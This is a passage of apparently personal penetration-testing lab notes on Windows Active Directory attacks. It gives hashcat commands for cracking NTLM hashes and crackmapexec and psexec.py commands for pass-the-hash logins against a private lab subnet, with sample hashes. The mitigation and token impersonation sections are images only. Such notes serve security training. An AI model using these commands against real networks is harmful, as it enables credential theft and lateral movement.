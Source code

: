 ### Cracking NTLM Hashes with Hashcat

- Ntlm hashes pass around
- NTLM v2 hashes not pass around

-m 1000 = ntlm
-m 5600 = ntlmv2

```ps
hashcat64.exe -m 1000 hashes64.txt rockyou.txt -O
```

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/10.jpg)
![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/11.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/12.jpg)

- 31d6 adminstrator disabled blank 

### Pass the hash attacks

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/13.jpg)

```ps
crackmapexec smb 192.168.163.0/24 -u ahl -H 7ce21f17c0aee7fb9ceba532d0546ad6 --local-auth  
```

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/14.jpg)

-  green meen pwnable

```ps
psexec.py ahl:@192.168.163.131 -hashes aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6
```

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/15.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/16.jpg)

### Pass the hash attack mitigations

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/17.jpg)

## Token Impersonation

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/18.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/19.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/20.jpg)

